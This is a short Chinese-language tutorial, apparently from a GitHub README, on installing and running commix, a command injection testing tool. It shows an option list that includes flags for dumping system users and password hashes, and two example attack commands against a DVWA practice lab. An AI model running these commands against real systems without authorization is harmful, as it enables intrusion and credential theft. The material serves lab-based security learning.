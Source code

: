 Command Injection
=
安装方法
-
在https://github.com/commixproject/commix/releases下下载commix压缩包，直接解压即可(由于新版v2.4出现了问题，v2.2经尝试可行)

使用说明
-
### 基本要素
commix.py –url=”” –data=”” –cookie=””
commix.py为打开我们的commix脚本，其次还需要输入对应的攻击网址url，data与cookie的相关数据
### 更多用法
    Options:
      -h, --help            Show help and exit.
    Target:
      -u URL, --url=URL     Target URL.
    Request:
      -d DATA, --data=..    Data string to be sent through POST.
      --host=HOST           HTTP Host header.
      --referer=REFERER     HTTP Referer header.
      --user-agent=AGENT    HTTP User-Agent header.
      --cookie=COOKIE       HTTP Cookie header.
      --cookie-del=CDEL     Set character for splitting cookie values.
    Enumeration:
      --all               Retrieve everything.
      --sys-info          Retrieve system information.
      --users             Retrieve system users.
      --passwords         Retrieve system users password hashes.
      --privileges        Retrieve system users privileges.
      --ps-version        Retrieve PowerShell's version number.
      Detection:
      --level=LEVEL       Level of tests to perform (1-3, Default: 1).
更多用法请见https://github.com/commixproject/commix/wiki/Usage， https://tools.kali.org/exploitation-tools/commix

### 示例
#### DVWA
root@kali:~/commix# python commix.py --url="http://192.168.178.58/DVWA-1.0.8/vulnerabilities/exec/#" --data="ip=127.0.0.1&Submit=Submit" --cookie="security=medium; PHPSESSID=nq30op434117mo7o2oe5bl7is4"
更多示例请见https://github.com/commixproject/commix/wiki/Usage-Examples， https://tools.kali.org/exploitation-tools/commix

- source: https://tools.kali.org/exploitation-tools/commix
```
root@speit-PowerEdge-T430:/home/speit/Downloads/commix-2.1-20171003# python commix.py --url http://192.168.5.100/vulnerabilities/exec/ --data="ip=INJECT_HERE&Submit=Submit" --cookie="security=low; PHPSESSID=upjio7inblkt07rte0eagcg045"
```
